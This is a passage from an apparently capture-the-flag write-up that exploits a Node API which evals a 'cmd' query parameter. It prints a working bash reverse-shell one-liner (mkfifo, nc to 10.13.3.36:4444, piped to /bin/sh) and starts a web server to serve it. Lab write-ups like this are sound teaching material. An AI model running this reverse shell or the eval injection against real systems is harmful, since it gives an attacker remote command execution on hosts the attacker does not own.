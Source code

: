 I tried using that as the token cookie but it did not work. Then I used Burp repeater to try to find different payloads. I mostly try sending a command using either a `command` or `cmd` argument in the request body, either as json or form data. Nothing worked. 

But when I used `cmd` as a query parameter, I finally got a very different result. 

![Eval](/assets/images/2021/05/Glitch/04-Eval.png)

This is very interesting. It looks like the code is trying to eval the command I'm passing it. So I can use this to run any JS code I want, and probably open a reverse shell. 

I found some examples of [Node reverse shell online](https://riyazwalikar.wordpress.com/2016/08/23/nodejs-rce-and-a-simple-reverse-shell/), but I could not get them to work. The API would return a message saying the vulnerability was exploited, but I would not get the reverse shell. I was able to use nc to connect back to my machine, but not using sh. 

In the end I created a file with a bash reverse shell. 

```bash
$ cat rev.sh 
mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg
```

And started a web server in my Kali box.
```bash
$ sudo python3 -m http.server 80
[sudo] password for ehogue: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
